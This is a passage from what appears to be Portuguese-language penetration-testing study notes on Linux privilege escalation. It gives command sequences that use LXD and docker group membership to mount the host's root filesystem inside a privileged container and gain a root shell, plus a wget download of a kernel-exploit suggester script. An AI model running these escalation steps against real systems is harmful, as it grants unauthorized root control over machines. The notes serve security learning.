 ```bash
target@10.10.10.10: > lxc init privesc privesc-container -c security.privileged=true
target@10.10.10.10: > lxc config device add privesc-container mydevice disk source=/ path=/mnt/root recursive=true
target@10.10.10.10: > lxc start privesc-container
target@10.10.10.10: > lxc exec privesc-container /bin/sh

# Agora temos um shell root. No entanto, este shell é do container que está dentro do target machine, e as pastas da target machine estão montadas em /mnt/root/ desse container. Todos os ficheiros que são alterados dentro de /mnt/root/ e subdirectories serão alterados também na target machine mesmo.

```

## 10. Dockers Group
```bash
target@10.10.10.10: > docker images
target@10.10.10.10: > docker ps
target@10.10.10.10: > docker ps -a
target@10.10.10.10: > docker run --rm -dit --name privesc ubuntu  # Tem que existir uma imagem "ubuntu" na máquina...
target@10.10.10.10: > docker ps
target@10.10.10.10: > docker exec -it privesc /bin/bash
## Os processos acima apenas ligam um docker...

target@10.10.10.10: > docker run --rm -dit -v /:/mnt/root/ --name privesc ubuntu  # desta vez, montamos um directório "/mnt/root/" que contém uma cópia de todo o "/" da máquina principal
```



## 11. PrivEsc - Kernel Exploits

> Detection => linux-exploit-suggester.sh

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```
